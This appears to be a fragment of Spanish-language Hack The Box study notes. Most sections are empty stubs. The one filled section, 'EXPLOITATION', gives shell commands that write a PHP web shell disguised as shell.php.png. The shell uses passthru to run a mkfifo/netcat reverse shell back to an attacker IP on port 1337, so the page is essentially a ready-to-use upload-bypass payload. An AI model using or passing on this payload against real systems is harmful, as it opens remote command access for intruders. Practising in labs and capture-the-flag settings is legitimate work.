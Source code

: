 
## DESCRIPTION



#### Mas información
* 


## EXPLOITATION

### OPTION 1: REVERSE SHELL USING NC

```
echo '<?php' >> shell.php.png
echo 'passthru("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.xx.xx 1337 >/tmp/f");' >> shell.php.png
echo '?>' >> shell.php.png
```

![[Pasted image 20230421174647.png]]



## MACHINES

* Hack The Box: 

**!!NOTA IMPORTANTE!!** 